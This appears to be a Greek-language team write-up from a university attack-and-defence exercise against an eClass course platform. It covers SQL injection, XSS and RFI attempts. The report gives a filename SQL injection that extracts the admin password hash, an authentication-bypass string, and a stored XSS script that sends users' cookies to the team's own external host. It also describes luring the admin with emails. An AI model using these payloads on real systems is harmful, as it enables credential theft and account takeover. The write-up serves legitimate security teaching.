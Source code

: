 Τo query που γίνεται στην υποβολή εργασίας είναι το έξης:

`INSERT INTO assignment_submit (uid, assignment_id, submission_date, submission_ip, file_path, file_name, comments) VALUES (....)`

Συνεπώς, έχοντας ένα αρχείο με όνομα ` 'SQL_inject' , (SELECT eclass.user.password FROM eclass.user WHERE eclass.user.user_id = 1) ) -- ' `  το παραπάνω query θα τοποθετήσει τον hashed κωδικό του admin στα σχόλια της υποβολής μας. To hash του κωδικού είναι *3a472d3dc4891ab7307988cdf00786df* και ήταν περίπλοκος και δεν τον
βρήκαμε σε κάποια βάση με hashes το διαδίκτυο. Επαναλαμβάνοντας το παραπάνω injection για δικό μας χρήστη του οποίου γνωρίζαμε τον κωδικό επιβεβαιώσαμε ότι ο κωδικός
δεν ήταν salted. Παρόλα αυτά, με το md5 hashrate της gpu που είχαμε διαθέσιμη υπολογίσαμε πως θα έπαιρνει περίπου 150 μέρες για να σπάσει το hash με bruteforce.

Ιδανικά θα θέλαμε έκτος από το SELECT query που γίνεται σε αυτό το σημείο να εκτελέσουμε και (ή μόνο) ένα δικό μας UPDATE ή INSERT query. Το παραπάνω θα μας επέτρεπε να 
αλλάξουμε τον κωδικό του admin και να συνδεθούμε. Κάτι τέτοιο όμως δεν είναι εφικτό, καθώς το query *(λογικά)* θα εκτελείτε με χρήση της mysql_query *(όπως και στο σύνολο της εφαρμογής)*, η οποία δεν υποστηρίζει την εκτέλεση πολλών query, εξού και η ανάγκη χρήσης εμφολευμένου SELECT για να μπορέσουμε να εκμεταλλευτούμε αυτό το κενό ασφαλείας.

Τελικά, καταφέραμε να βρούμε ένα SQLi στη σελίδα 'upgrade' στην φόρμα authentication του admin το οποίο **μας επέτρεψε να συνδεθούμε ως admin** και να έχουμε πρόσβαση 
στις σελίδες/επιλογές του. Πιο αναλυτικά, παρατηρήσαμε οτι τα πεδία της φόρμας γινονταν escape αντί να χρησιμοποιηθεί κάποιο prepared statement, οπότε μετά από αρκετές δοκιμές και συνδυασμούς ' και " μετά το username, καταλήξαμε στο ```drunkadmin' or ''='``` το οποίο και μας επέτρεψε να προσπεράσουμε τον έλεγχο του κωδικού και να
συνδεθούμε με επιτυχία.


### XSS

Όσον αφορά τα XSS vunerabilities, οι αντίπαλοι μας φαίνεται να έκαναν πολύ καλύ δουλειά στην αντιμετώπισή τους, καθώς καμία από τις επιθέσεις XSS που κάναμε δεν λειτούργησε,
Δοκιμάσαμε ακόμα και τα πιο "κρυμμένα" XSS όπως αυτα που μπορούν να προκύψουν από το ```$_SERVER ['PHP_SELF']``` και ήταν όλα επαρκώς προστατευμένα. Ακόμα και "ύπουλα"
σχεδιασμένες σελίδες όπως η newuser.php newprof.php στις οποίες μπορούσαμε στο πρωτότυπο να κάνουμε inject xss στα πεδία της φόρμας απλά γράφοντας το script μας στο url 
σαν τιμή μιας από τις php μεταβλητές που δίνουν value σε κάποιο από τα πεδία της σελίδας, ήταν επαρκώς προστατευμένες. 

πχ το ```http://madclip-enthusiasts.csec.chatzi.org/modules/auth/newuser.php?prenom_form=%27%3Cscript%3Ealert(1)%3C/script%3E```

φαίνεται να "σπάει" την φόρμα, καθώς τυπώνεται το εξής ```alert(1)' class='FormData_InputText' />  (*)``` αλλά δεν τρέχει τελικά ο κώδικας καθώς φαίνεται να 
αφαιρούν από τα strings τους χαρακτήρες '<', '>', '/', και την λέξη 'script'

Πέρα από τα παραπάνω, δοκιμάσαμε σε όλα τα σημεία της πλατφόρμας που μπορέσαμε να σκεφτούμε επιθέσεις stored xss βάζοντας το εξής script 
```<script>window.location='http://edimoi-diariktes.puppies.chatzi.org/?totally_not_suspicious='.concat(document.cookie);</script>```
το οποίο εαν εκτελεστεί, αποστέλει το cookie του χρήστη στην σελίδα puppies μας από την οποία το cookie αποστέλεται αυτόματα με email σε εμάς.
"Φυτέψαμε" το script αυτό σε όλα τα σημεία που μπορέσαμε να σκεφτούμε και δοκιμάσαμε να στείλουμε email στον drunkadmin ζητώντας του "Να μπει να
βαθμολογήσει τις εργασιες μας" ή "Να διαβάσει τα μηνύματά μας" με την ελπίδα ότι κάποιο xss θα έτρεχε στην πλευρά του admin, πράγμα όμως που δεν
έγινε τελικά καθώς οι αντίπαλοι μας είχαν προστατεύσει τις σελίδες αυτές όπως αποδείχθηκε.


### RFI

Αρχικά ξεκινήσαμε ψάχνοντας σημεία όπου θα μπορούσαμε να κάνουμε RFI. Το οποίο θα μας έδινε την δυνατότητα να εκτελέσουμε τα δικά μας, κακόβουλα αρχεία php.

Το πρώτο ήταν η γλωσσά, όπου δοκιμάσαμε να βάλουμε κάποιες invalid τιμές για αυτή με σκοπό να εκτελέσουμε  κάποιο άλλο αρχείο.  Αυτό δεν ήταν δυνατό καθώς κάθε τέτοια προσπάθεια μας είχε σαν αποτέλεσμα να κάνει default η γλώσσα στα αγγλικά.
```